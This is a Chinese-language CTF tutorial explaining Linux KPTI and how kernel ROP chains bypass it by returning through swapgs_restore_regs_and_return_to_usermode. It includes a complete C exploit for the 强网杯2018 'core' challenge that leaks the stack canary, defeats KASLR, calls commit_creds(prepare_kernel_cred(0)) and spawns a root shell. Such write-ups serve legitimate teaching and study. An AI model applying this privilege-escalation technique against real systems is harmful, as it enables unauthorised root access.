


# Kernel ROP with KPTI bypass

[KPTI](https://www.kernel.org/doc/html/latest/x86/pti.html) 即 `内核页表隔离`（Kernel page-table isolation），内核空间与用户空间分别使用两组不同的页表集，这对于内核的内存管理产生了根本性的变化。

KPTI 的发明主要是用来修复一个史诗级别的 CPU 硬件漏洞：Meltdown。简单理解就是利用 CPU 流水线设计中（乱序执行与预测执行）的漏洞来获取到用户态无法访问的内核空间的数据，属于侧信道攻击的一种。

**KPTI 同时还令内核页表中属于用户地址空间的部分不再拥有执行权限，这使得 ret2usr 彻底成为过去式** 。

对于开启了 KPTI（内核页表隔离），我们**不能像之前那样直接 swapgs ; iret 返回用户态**，而是在返回用户态之前还**需要将用户进程的页表给切换回来** 。

众所周知 Linux 采用**四级页表**结构（PGD->PUD->PMD->PTE），而 CR3 控制寄存器用以存储当前的 PGD 的地址，因此在开启 KPTI 的情况下用户态与内核态之间的切换便涉及到 CR3 的切换，为了提高切换的速度，内核将内核空间的 PGD 与用户空间的 PGD 两张页全局目录表放在一段连续的内存中（两张表，一张一页4k，总计8k，内核空间的在低地址，用户空间的在高地址），这样**只需要将 CR3 的第 13 位取反便能完成页表切换的操作**



需要进行说明的是，**在这两张页表上都有着对用户内存空间的完整映射，但在用户页表中只映射了少量的内核代码（例如系统调用入口点、中断处理等），而只有在内核页表中才有着对内核内存空间的完整映射，但两张页表都有着对用户内存空间的完整映射**，如下图所示，左侧是未开启 KPTI 后的页表布局，右侧是开启了 KPTI 后的页表布局。


**KPTI 同时还令内核页表中用户地址空间部分对应的页顶级表项不再拥有执行权限（NX），这使得 ret2usr 彻底成为过去式** 。

除了在系统调用入口中将用户态页表切换到内核态页表的代码外，内核也相应地在 `arch/x86/entry/entry_64.S` 中提供了一个用于完成内核态页表切换回到用户态页表的函数 `swapgs_restore_regs_and_return_to_usermode`，地址可以在 `/proc/kallsyms` 中获得。

由于源码的汇编代码编写较为繁重，我们可以通过 IDA 逆向的方式查看其基本汇编逻辑：


在实际操作时前面的一些栈操作都可以跳过，直接从 `mov rdi, rsp` 开始，这个函数大概可以总结为如下操作：

```assembly
mov  rdi, cr3
or rdi, 0x1000
mov  cr3, rdi
pop rax
pop rdi
swapgs
iretq
```

因此我们只需要布置出如下栈布局即可：

```
↓   swapgs_restore_regs_and_return_to_usermode
    0 // padding
    0 // padding
    user_shell_addr
    user_cs
    user_rflags
    user_sp
    user_ss
```

## 例题：强网杯2018 - core

这一次我们在启动脚本中的内核启动参数 `-append` 中添加 `pti=on` 选项以显式开启 KPTI 保护：

```bash
qemu-system-x86_64 \
-m 64M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr pti=on" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

此时我们尝试执行之前的 ROP exp ，可以发现不再可行，反而会触发 segmentation fault，因为 **在内核态页表中，用户地址空间部分对应的页顶级表项不再拥有执行权限** ：



因此我们在返回用户态之前还需要先将内核态页表切换回来，这里我们在完成提权后直接使用 `swapgs_restore_regs_and_return_to_usermode` 函数返回用户态即可，而无需直接手动调用 `iretq` 指令。

最终的 exp 如下，将 ROP chain 中返回用户态的部分由 `swapgs` + `iret` 两条独立的指令替换为了对 `swapgs_restore_regs_and_return_to_usermode` 函数的调用，需要注意的是该函数开头有一堆我们不需要的操作，我们需要通过逆向的方式手动计算该函数中 `mov rdi, cr3` 指令的位置：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0
#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a008da

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

    for(i = 0; i < 10; i++) {
        rop_chain[i] = canary;
    }
    rop_chain[i++] = POP_RDI_RET + kernel_offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = prepare_kernel_cred;
    rop_chain[i++] = POP_RDX_RET + kernel_offset;   // exec:1
    rop_chain[i++] = POP_RCX_RET + kernel_offset;   // exec:3
    rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + kernel_offset;  // exec:2
    rop_chain[i++] = commit_creds;
    rop_chain[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 22 + kernel_offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = (size_t) get_root_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp + 8;   // userland stack balance
    rop_chain[i++] = user_ss;

    /* exploitation */

    log_info("[*] Start to execute ROP chain in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```
